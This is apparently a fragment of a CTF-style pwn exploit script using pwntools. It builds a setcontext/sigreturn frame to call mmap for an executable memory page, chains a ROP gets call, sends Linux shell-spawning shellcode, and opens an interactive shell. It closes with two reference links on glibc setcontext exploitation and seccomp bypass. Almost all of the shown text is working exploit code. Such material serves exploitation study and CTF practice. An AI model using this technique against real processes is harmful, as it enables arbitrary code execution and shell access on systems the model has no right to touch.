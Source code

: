 ```python
	# 0x1a0: int reserved[24]
	# 0x200: [end]
	}
	return flat({
	0x00 : bytes(frame),
#	0xf8: 0					# end of SigreturnFrame
	0x128: 0,				# uc_sigmask
	0x1a8: fpstate,			# fpstate
	})

addr = 0xdead000
addr_rop = ptr + len(setcontext({}, 0))

data = setcontext({
	# mmap(addr, 0x1000, rwx, 0x22, -1, 0)
	"rip": libc.sym.mmap,
	"rdi": addr,
	"rsi": 0x1000,
	"rdx": 7,
	"rcx": 0x22,
	"r8": -1,
	"r9": 0,
	# execute rop afterwards
	"rsp": addr_rop
}, ptr)

rop = ROP(libc)
rop.gets(addr)
rop.raw(addr)

data += rop.chain()
#gdb.attach(p)
p.sendline(data)
p.sendline(str(libc.sym.setcontext).encode())

p.sendline(asm(shellcraft.linux.sh()))

p.interactive()
```


ref : 

[1](https://blog.wingszeng.top/pwn-glibc-setcontext/)
    
[2](https://surager.pub/_posts/2020-06-27-%E4%BB%8EDASCTF6%E6%9C%88%E8%B5%9B%E4%B8%AD%E5%AD%A6%E4%B9%A0setcontext%E7%BB%95%E8%BF%87seccomp/)

